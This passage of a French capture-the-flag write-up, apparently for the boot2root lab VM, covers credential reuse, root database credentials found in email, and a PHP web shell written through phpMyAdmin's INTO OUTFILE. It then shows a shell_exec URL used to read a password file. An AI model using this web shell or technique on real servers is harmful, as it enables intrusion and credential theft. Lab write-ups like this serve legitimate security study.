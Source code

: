 ### [5. Login mail -> Webmail (facepalm #2)](#start) <a name=mail>
Nous nous connectons sur le forum en tant que `lmezard`. En regardant sa page profil, nous trouvons son adresse email:
`laurie@borntosec.net`

Nous nous connectons au profil webmail de laurie en utilisant cette adresse ainsi que le même mot de passe que pour le forum (autre faille de sécurité évidente).

### [6. Identifiants base de données (facepalm #3)](#start) <a name=db>
En lisant les rares mails présents sur le compte, nous obtenons les identifiants root à une base de donnée :
```shell
root
Fg-'kKXBj87E:aJ$
```

### [7. phpmyadmin - mylittleforum](#start) <a name=php_forum>
Cette base de données correspond au chemin `phpmyadmin/` mentionné précédemment, nous nous y connectons en utilisant ces identifiants.

Nous cherchons un moyen d'écrire un fichier sur le filesystem en utilisant la console mySQL de phpmyadmin.
En listant la documentation d'installation du logiciel de mylittleforum, nous decouvrons que le dossier `templates_c/` doit être configuré avec des permissions d'écriture.

### [8. phpmyadmin - script](#start) <a name=php_script>
Nous créons un script php dans le dossiers `forum/templates_c` depuis l'onglet SQL, afin de pouvoir executer des commandes sur le serveur depuis l'interface de phpmyadmin, en voici le contenu :
```shell
SELECT "<pre><?php echo shell_exec($_GET['e']); ?></pre>" INTO OUTFILE '/var/www/forum/templates_c/shell.php';
```

### [9. home/LOOKATME/password (Sérieusement !?)](#start) <a name=lookatme>
Grâce au script php, nous récuperons les identifiants de connexion, présents dans le dossier home/LOOKATME/password :
`https://10.0.2.4/forum/templates_c/shell.php?e=cat%20/home/LOOKATME/password`

```shell
lmezard:G!@M6f4Eatau{sF"
```

Le premier réflexe est d'essayer de s'y connecter en ssh. Mais comme cela est impossible, nous nous rappelons le résultat du nmap, dans lequel nous avions appris qu'un port sert un ftp.

Nota bene :
Il est impossible de se connecter en ssh car cela a été ainsi configuré dans le fichier `/etc/ssh/sshd_config` :
```shell
AllowUsers ft_root zaz thor laurie
```
(Mais bien entendu, nous avons découvert cela plus tard.)
